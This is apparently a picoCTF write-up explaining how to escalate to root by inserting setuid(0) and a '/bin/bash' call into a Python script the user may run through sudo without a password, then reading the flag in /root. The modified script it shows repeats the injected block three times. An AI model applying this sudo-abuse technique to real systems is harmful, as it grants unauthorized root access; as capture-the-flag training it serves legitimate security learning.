 Add this at the beginning

```
import os
os.setuid(0)  # Change the user ID to root
os.system('/bin/bash')  # Execute a shell as root
```

It should be like this
```
picoctf@challenge:~$ cat .server.py
import base64
import os
import socket
import os
os.setuid(0)  # Change the user ID to root
os.system('/bin/bash')  # Execute a shell as root
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
import os
os.setuid(0)  # Change the user ID to root
os.system('/bin/bash')  # Execute a shell as root
import os
os.setuid(0)  # Change the user ID to root
os.system('/bin/bash')  # Execute a shell as root
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

Adding at the end doesnt work as the code fails getting serverhost

```
sudo -l 
```

Gives 
```
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```


Now we are root so we can go to `/root`
and then `ls -la` and read the flag

```
cd /root
ls -la
cat .flag.txt
```
